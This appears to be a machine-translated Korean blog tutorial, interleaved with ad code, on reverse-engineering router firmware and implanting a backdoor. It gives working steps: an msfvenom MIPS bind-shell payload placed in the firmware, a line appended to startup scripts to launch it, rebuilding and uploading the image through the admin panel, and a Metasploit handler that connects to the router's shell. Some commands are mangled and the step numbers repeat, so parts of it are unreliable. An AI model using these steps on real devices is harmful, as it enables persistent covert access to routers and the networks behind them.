 ```yaml
---
title: "라우터 펌웨어 역공학 및 백도어 설치 방법"
description: ""
coverImage: "/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png"
date: 2024-07-06 02:52
ogImage:
  url: /assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png
tag: Tech
originalTitle: "Reverse Router Firmware , Backdooring It…"
link: "https://medium.com/@nahid0x1/reverse-router-firmware-backdooring-it-78ff442edb6c"
isUpdated: true
---
```


라우터 펌웨어는 네트워크 인프라의 중요한 구성 요소이며 보안이 자주 간과됩니다. 해커로서 라우터 펌웨어를 역공학 및 백도어링하는 방법을 이해하는 것이 중요합니다. 이 문서에서는 라우터 펌웨어를 역공학하고 백도어링하는 과정을 살펴보겠습니다.

![라우터 펌웨어 역공학 및 백도어링](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png)

도구 및 요구 사항

- 리눅스 머신 (Kali Linux)
- Binwalk: 펌웨어 분석 도구
- Firmware-Mod-Kit (github.com/rampageX/firmware-mod-kit)

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

단계 1: 대상 라우터 펌웨어 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_1.png)

단계 2: 압축 해제하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_2.png)

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

Step 3: Firmware-mod-kit 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_3.png)

```bash
git clone https://github.com/rampageX/firmware-mod-kit

sudo apt-get install git build-essential zlib1g-dev liblzma-dev python3-magic autoconf python-is-python3
```

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_4.png)

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

단계 4: 펌웨어 추출하기

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_5.png

```js
firmware-mod-kit/extract-firmware.sh firmware.bin
```

단계 5: rootfs 폴더로 이동하기

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_6.png

단계 6: Metasploit을 사용하여 백도어(backdoor) 생성하기

참고: 먼저 펌웨어 엔디안이 리틀 엔디안(little endian)인지 다른 종류의 엔디안인지 확인하십시오.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_7.png

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
cd bin
msfvenom -p linux/mipsle/shell_bind_tcp LPORT=1337 -f elf > backdoor
chmod 777 backdoor
```

Step 7: 백도어를 실행하도록 설정합니다.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_8.png

```js
cd ...
find . -name "*.sh" #이 명령어는 모든 .sh 파일을 검색합니다
#찾은 .sh 파일에 "/bin/backdoor &"를 추가하세요
```

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

8단계: 펌웨어를 다시 빌드하세요

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_9.png

```js
firmware - mod - kit / build - firmware.sh;
```

9단계: 펌웨어 업로드

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- 관리자 패널에 로그인하세요.
- 업데이트 옵션을 찾으세요.

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_10.png)

- 이제 수정된 펌웨어를 업로드하세요...

단계 9: 라우터 쉘에 액세스하기

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
msfconsole
use exploit/multi/handler
set payload linux/mipsle/shell_bind_tcp
set LPORT 1337
set rhost 192.168.0.1
exploit
```

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_11.png
